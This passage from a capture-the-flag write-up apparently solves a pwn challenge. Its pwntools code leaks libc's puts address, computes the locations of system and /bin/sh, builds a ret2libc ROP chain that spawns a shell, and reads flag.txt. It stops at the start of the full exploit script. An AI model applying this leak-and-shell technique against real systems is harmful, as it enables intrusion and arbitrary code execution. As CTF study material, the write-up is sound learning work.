 The payload above will prit the address of `puts` from the Global Offset Table.
Using the last 3 nibbles, we can determine that the libc version is 2.31 and we can calculate the base address of libc.

```py
io.recvuntil(('Got: \n', 'Hello, \n'))
io.recvline()
libc_leak = io.recvline()[:-1]
print(libc_leak)

libc.address = u64(libc_leak.ljust(8, b'\x00')) - libc.symbols['puts']
bin_sh = next(libc.search(b'/bin/sh'))
system = libc.symbols['system']
```

### Getting a shell and flag

Now we're back in the main function and we know the address of libc.
We've calculated the address of the string `"/bin/sh\x00"` and the `system` function.
We can use this in a second payload to call `system("/bin/sh")` and get a shell:

```py
shell_payload = flat({
    fault: [
        ret,
        pop_rdi,
        bin_sh,
        system,
        ]
    })
```

Now we can read the `flag.txt` file and send it back to the challenge:

```py
io.sendline('cat flag.txt')
flag = io.recvuntil('}')
io.success("Flag: {}".format(flag))
io.sendline('exit')
io.recvuntil('flag>')
io.sendline(flag)
```

We have now completed one part of the challenge.
This has to be repeated for all 9 parts and we will receive the flag for the challenge.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host chal.b01lers.com --port 4001
from pwn import *
from IPython import embed

import codecs

# Set up pwntools for the correct architecture
libc = ELF("./libc6_2.31-0ubuntu9_amd64.so")
ld = ELF("./ld-2.31.so")

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
```